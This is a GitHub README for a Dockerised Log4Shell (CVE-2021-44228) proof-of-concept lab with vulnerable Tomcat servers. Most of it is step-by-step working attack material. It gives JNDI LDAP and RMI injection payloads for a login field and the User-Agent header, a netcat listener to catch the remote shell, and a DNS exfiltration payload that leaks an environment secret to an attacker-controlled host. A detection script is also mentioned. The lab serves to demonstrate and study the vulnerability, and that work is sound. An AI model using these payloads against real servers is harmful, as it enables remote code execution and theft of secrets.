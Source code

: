 # log4j-poc

## An LDAP RCE exploit for CVE-2021-44228 Log4Shell 

### Description

The demo Tomcat 8 server on port 8080 has a vulnerable app (log4shell) deployed on it and the server also vulnerable via user-agent attacks.

The remote exploit app in this demo is based on that found at https://github.com/kozmer/log4j-shell-poc

This demo tomcat server (Tomcat 8.5.3, Java 1.8.0u51) has been reconfigued to use Log4J2 for logging - a non-standard configuration.

A newer Bitnami server is now available on port 8888. It is also is configured for Log4J2 logging and is running Tomcat 9.0.55 and OpenJDK 11.0.13.

The RMI exploit against the Tomcat 9 / Java 11 server is described here: https://www.veracode.com/blog/research/exploiting-jndi-injections-java (Jan 3, 2019) by Michael Stepankin

The detection script will check for user-agent vulnerablities and is from here: https://gist.github.com/byt3bl33d3r/46661bc206d323e6770907d259e009b6
 

### Prerequisites

This code requires Docker and Docker Compose

### Installation

``` 
git clone https://github.com/cyberxml/log4j-poc
cd log4j-poc
# edit docker-compose.yml to addjust the environment variables as needed.
#   POC_ADDR is the address of the cve-poc container
#   LISTENER_ADDR is the address of the 'nc' listener e.g. the docker host
# The listener IP address is the address of the machine on which you will run the netcat 'nc' listener
# This can be the local IP of the docker hostmachine.
docker-compose build
```

### Run Web App Attack Demo

1. Setup your docker listener in the first terminal
    1. `nc -lnvp 9001`
1. Start the docker containers in a second terminal
    1. `docker-compose up`
1. Navigate to the web app on port 8080
    1. Navigate to http://10.10.10.31:8080/log4shell
        1. Enter the username: `admin`
        1. Enter the password: `password`
        1. Select the "login" button
        1. See the welcome screen 
    1. Return to login at http://10.10.10.31:8080/log4shell
        1. Enter the username `${jndi:ldap://172.16.238.11:1389/a}`
        1. Select the "login" button
        1. Check for connection on your `nc` listener

### Run a User Agent Attack Demo

1. Setup your docker listener in the first terminal
    1. `nc -lnvp 9001`
1. Start the docker containers in a second terminal
    1. `docker-compose up`
1. In a third terminal, run the following. The second IP is the docker host
    1. `curl -A "\${jndi:ldap://172.16.238.11:1389/a}" http://10.10.10.31:8080/log4shell`

### Run a DNS Exfil Demo on Recent Java 11 version

1. Start the docker containers in a terminal
    1. `docker-compose up`
1. In a second terminal, run the following. The IP is the ip address of the docker host
    1. `curl -A "\${jndi:dns://10.10.10.31/\${env:POC_PASSWORD}}" http://10.10.10.31:8888/log4shell/`
1. The vulnerable web server will attempt to do a TXT lookup at the given IP. See log4j-dns_exfil.pcap


### Run an RMI RCE Demo on Recent Java 11 version

I am having issues with command line arg for ping target. So you have to compile yourself.

#### Compile 
1. Start the docker containers in a terminal
    1. `docker-compose up`
1. In another terminal, Login to the cve-poc
    1. `docker exec -it log4j-poc_cve-poc_1 /bin/bash`
1. Kill running RMIServerPOC instance
1. Change to rmi-poc directory
    1. `cd /home/user/rmi-poc`
1. Edit RMIServerPOC.java to change 10.10.10.31 to your ping target
1. Recompile
    1. `javac -cp catalina.jar:. RMIServerPOC.java`
1. Run the Server
    1. `javac -cp catalina.jar:. RMIServerPOC 127.0.0.1`

#### Run RMI RCE Demo

1. Start the docker containers in a terminal
    1. `docker-compose up`
1. In a second terminal, run the following. The IP is the ip address of the docker host
    1. `curl -A "\${jndi:rmi://172.16.238.11:1097/Object}" http://10.10.10.31:8888/`
1. The vulnerable web server will download a serialized malicious class from the RMI server for a class which already exists in the Tomcat environment.
1. This will ping the IP address defined in the compile section. 


### Detect UA Vulnerability
1. cd scripts
1. `python3 log4j_rce_check.py http://10.10.10.31:8080/log4shell --attacker-host 10.10.10.31:11389 --timeout=2`
1. you will have to kill the process, not sure yet why this hangs
